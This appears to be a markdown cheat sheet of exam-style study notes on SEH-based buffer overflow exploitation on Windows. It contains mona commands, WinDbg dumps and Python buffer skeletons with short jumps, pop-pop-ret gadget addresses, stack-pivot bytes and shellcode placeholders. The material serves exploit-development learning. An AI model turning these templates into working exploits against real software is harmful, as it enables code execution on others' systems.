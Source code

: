 # SEH Overflow (no DEP, no ASLR)

## Step
1. Find initial crash
2. Find offset with:
```py
!py mona pc XXX 
```
3. Find badchar:

```py
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
In order to find you payload you can dump the TEB and dump the EXCEPTION_REGISTRATION_RECORD.
For example:
```py
0:003> !teb
TEB at 002e3000
ExceptionList:        00edec94
StackBase:            00ee0000
StackLimit:           00edd000
SubSystemTib:         00000000
FiberData:            00001e00
ArbitraryUserPointer: 00000000
Self:                 002e3000
EnvironmentPointer:   00000000
ClientId:             0000196c . 000021bc
RpcHandle:            00000000
Tls Storage:          007f02b0
PEB Address:          002df000
LastErrorValue:       0
LastStatusValue:      c000000d
Count Owned Locks:    0
HardErrorMode:        0
```
And now you dump the \_EXCEPTION_REGISTRATION_RECORD to find NSEH
```py
0:003> dt _EXCEPTION_REGISTRATION_RECORD 00edec94
ntdll!_EXCEPTION_REGISTRATION_RECORD
+0x000 Next             : 0x00edffcc _EXCEPTION_REGISTRATION_RECORD
+0x004 Handler          : 0x77ec5b10     _EXCEPTION_DISPOSITION  ntdll!ExecuteHandler2+0

0:003> db 0x00edffcc 
00edffcc  42 42 42 42 43 43 43 43-01 02 03 04 05 06 07 08  BBBBCCCC........
00edffdc  09 0a 0b 0c 0d 0e 0f 10-11 12 13 14 15 16 17 18  ................
00edffec  19 1a 1b 1c 1d 1e 1f 20-21 22 23 24 25 26 27 28  ....... !"#$%&'(
00edfffc  29 2a 2b 2c ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  )*+,??
```
4. Find a PPR with mona and insert in the SEH
	```py
	!py mona seh -cpb '\x00'
	```
	1. If you find it, go to 5.
	2. Otherwise search for ADD ESP,XX 
	2. If you have only NULL byte, read here https://dl.packetstormsecurity.net/papers/bypass/bypassing-nullbyte.pdf
		
5. Overwrite NSEH with a short jump
```py
nasm > jmp short 8
00000000  EB06 
```
6. Now look if you have space for the shellcode
	1. If you have it, insert the shellcode and pop the calc
		```py
		  crash = b"A"*junk
		  nSEH =  b"\xeb\x06\x90\x90" #jump 8 bytes
		  SEH = struct.pack("<I",0x100195f2) #pop pop ret 
		  junk2 = b"\x90"*10
		  shellcode = "\x23\x56\..."
		  junk3 = b"D"*(total - len(crash+nSEH+SEH+junk2+shellcode))

		  buffer=b"GET "
		  buffer+=crash+nSEH+SEH+junk2+shellcode+junk3
		  buffer+=b" HTTP/1.1\r\n"
		```
    2. Otherwise:
  
    	1. Increase the SP and JMP to it. For example:
			```py
			nasm > add sp, 0x86c
			00000000  6681C46C08        add sp,0x86c


			inputBuffer = b"A" * 124
			inputBuffer+= pack("<I",0x06eb9090) # short jump 8
			inputBuffer+= pack("<I",0x100133e7) # pop edi # pop esi # ret 0x04 
			inputBuffer+= b"\x90" * 2 
			inputBuffer+= b"\x66\x81\xc4\x6C\x08"   # 6681C46C08        add sp,0x86c
			inputBuffer+= b"\xff\xe4"               # jmp esp 
			inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
			inputBuffer+= shellcode
			```
        2. Jump back to the start of the payload (you have to calculate how much to jump)
			```py
			nasm > push esp
			\x54  
			nasm > pop eax
			\x58
			nasm > add ax, 0x5bd
			00000000  6605BD05          add ax,0x5bd
			nasm > jmp eax
			\xff\xe0

			buffer = shellcode
			buffer += b"A"*(2495-len(shellcode))
			buffer += b"\xeb\x06\x90\x90" #nseh
			buffer += pack("<I",0x10013407) #PPR  10013407
			buffer += b"\x54\x58\x66\x05\xbd\x05\xff\xe0" #jumpback
			buffer += b"\x90"*10
			buffer += b"D"*(total - len(buffer))
			```
		3. Similar to 2.
			```py
			  buf += b"B" * 129              # offset continued...
			  buf += b"\xeb\x06\x90\x90"     # nSeh      -> jmp 0x6 ; nop ; nop (jump over eip into short shellcode part below)
			  buf += pack("<I", 0x60ae1b2b)  # eip / seh -> pop ecx ; pop ecx ; ret
			  buf += b"\xb8\xc0\xf8\xff\xff" # mov eax, 0xfffff8c0 (redirect execution to top of buffer [shellcode])
			  buf += b"\xf7\xd8"             # neg eax
			  buf += b"\x01\xc4"             # add esp, eax
			  buf += b"\xff\xe4"             # jmp esp
			  buf += b"C" * 33               # required to trigger the seh overwrite rather than another crash
			```

## Resources
1. https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
2. https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/
3. https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow
4. https://fuzzysecurity.com/tutorials/expDev/3.html
